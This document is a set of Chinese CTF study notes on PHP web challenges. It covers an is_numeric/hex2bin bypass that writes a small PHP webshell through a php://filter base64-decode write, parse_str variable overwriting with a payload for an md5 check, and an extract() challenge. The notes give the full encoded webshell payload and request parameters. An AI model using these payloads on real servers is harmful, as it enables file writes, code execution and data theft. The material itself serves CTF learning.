 ```

php5下is_numeric可识别16进制，如0x2e，然后调用hex2bin转成字符串写入木马，
但题目环境没配好，是php7的is_numeric不能识别16进制，必须全数字，所以要另换方法。

当用伪协议写入时，将如下木马先base64编码后转成16进制就是全是数字的字符串！
$a='<?=`cat *`;';
$b=base64_encode($a);//$a=PD89YGNhdCAqYDs=
$c=bin2hex('PD89YGNhdCAqYDs');
得到5044383959474e6864434171594473

?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST:v1=hex2bin
```




^
## **parse_str()函数**
类似extract()函数和变量覆盖。
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```



^
和extract()配合题：
```
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```
